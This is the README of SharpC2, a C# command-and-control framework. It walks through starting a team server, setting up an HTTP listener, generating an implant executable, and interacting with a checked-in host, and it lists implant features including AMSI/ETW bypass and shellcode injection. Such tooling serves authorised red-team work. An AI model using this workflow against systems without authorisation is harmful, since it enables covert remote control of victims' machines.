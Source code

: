 [![Build Status](https://travis-ci.com/SharpC2/SharpC2.svg?branch=main)](https://travis-ci.com/SharpC2/SharpC2)
[![Documentation Status](https://readthedocs.org/projects/sharpc2/badge/?version=latest)](https://sharpc2.readthedocs.io/en/latest/?badge=latest)

# SharpC2

SharpC2 is a Command and Control Framework written in C#.

The solution consists of an ASP.NET Core Team Server, a .NET Framework Implant, and a .NET Client.

## Quick Start

The quickest way to have a play with the framework is clone the repo, then build and run the Debug versions.

### Start the Team Server

```
C:\SharpC2\TeamServer> dotnet build
C:\SharpC2\TeamServer> cd .\bin\Debug\net6.0\
C:\SharpC2\TeamServer\bin\Debug\net6.0> dotnet TeamServer.dll -p Passw0rd!

info: Microsoft.Hosting.Lifetime[0]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: C:\SharpC2\TeamServer\bin\Debug\net6.0
```

**Note**:  If the server starts in `Development` mode, it will only listen for connections on the `localhost`.  To ensure it runs in `Production` mode (and therefore listen for connections on all interfaces) set the `ASPNETCORE_ENVIRONMENT` variable to `Production`.

### Start the Client

```
C:\SharpC2\Client> dotnet build
C:\SharpC2\Client> cd .\bin\Debug\net6.0\
C:\SharpC2\Client\bin\Debug\net6.0> dotnet SharpC2.dll -s localhost -p 8443 -n rasta -P Passw0rd!
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_


Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

accept? [y/N] >
```

### Configure and Start the Default HTTP Handler

```
[drones] > handlers

[handlers] > list

Name          Running
----          -------
default-http  False
default-smb   False

[handlers] > set default-http BindPort 8080
[+] BindPort set to 8080

[handlers] > set default-http ConnectPort 8080
ConnectPort set to 8080

[handlers] > start default-http
[+] Handler "default-http" started.

[handlers] > list

Name          Running
----          -------
default-http  True
default-smb   False

[handlers] > back
[drones] >
```

### Generate a Payload for the Handler

```
[drones] > payload default-http Exe c:\payloads\drone.exe
[+] 204800 bytes saved.
```

Execute the payload.

```
[+] Drone abf7be1c27 checked in from Daniel@Ghost-Canyon.

[drones] > list

Guid        Parent  Address        Hostname      Username  Process  Pid   Integrity  Arch  LastSeen
----        ------  -------        --------      --------  -------  ---   ---------  ----  --------
abf7be1c27  -       192.168.1.229  Ghost-Canyon  Daniel    drone    1428  Medium     x64   24/11/2021 16:28:51
```

### Interacting with a Drone

```
[drones] > interact abf7be1c27

[abf7be1c27] > help

Name              Description
----              -----------
abort             Abort a running task
back              Go back to the previous screen
bypass            Set a directive to bypass AMSI/ETW on tasks
cat               Read a file as text
cd                Change working directory
execute-assembly  Execute a .NET assembly
exit              Exit this Drone
getuid            Get current identity
help              Print a list of commands and their description
link              Link to an SMB Drone
load-module       Load an external Drone module
ls                List filesystem
mkdir             Create a directory
overload          Map and execute a native DLL
ps                List running processes
pwd               Print working directory
rm                Delete a file
rmdir             Delete a directory
run               Run a command
services          List services on the current or target machine
shell             Run a command via cmd.exe
shinject          Inject arbitrary shellcode into a process
sleep             Set sleep interval and jitter
upload            Upload a file to the current working directory of the Drone

[abf7be1c27] > getuid
[+] Tasked Drone to run getuid: 3989657f56.
[+] Drone checked in. Sent 176 bytes.
[+] Drone task 3989657f56 is running.

GHOST-CANYON\Daniel

[+] Drone task 3989657f56 has completed.
```

## Documentation

See more documentation on [Read the Docs](https://sharpc2.readthedocs.io/en/latest).